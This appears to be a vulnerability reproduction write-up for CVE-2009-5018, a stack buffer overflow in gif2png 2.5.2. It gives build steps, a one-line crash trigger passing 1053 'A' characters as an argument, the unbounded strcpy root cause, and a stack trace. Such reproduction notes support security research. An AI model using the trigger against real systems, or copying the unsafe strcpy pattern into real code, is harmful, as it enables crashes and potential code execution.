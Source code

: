 # CVE-2009-5018

## Experiment Environment

Ubuntu 14.04 LTS

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2009-5018/gif2png-2.5.2.tar.gz

tar -xvf gif2png-2.5.2.tar.gz
cd gif2png-2.5.2

./configure
make
```

## Problems in Installation & Configuration

## How to trigger vulnerability

```
gif2png $(perl -e 'print "A" x 1053')
```

## PoCs

[gif2png 2.5.2 - Remote Buffer Overflow](https://www.exploit-db.com/exploits/34356/)

[securityfocus](http://www.securityfocus.com/bid/41801/info)

## Vulnerability Details & Patch

### Root Cause

```
gif2png.c:877

            strcpy(name, argv[i]);
```

### Stack Trace

```
(gdb) info stack
#0  0x0804afb4 in main (argc=2, argv=0xbf833354) at gif2png.c:884
```

## References
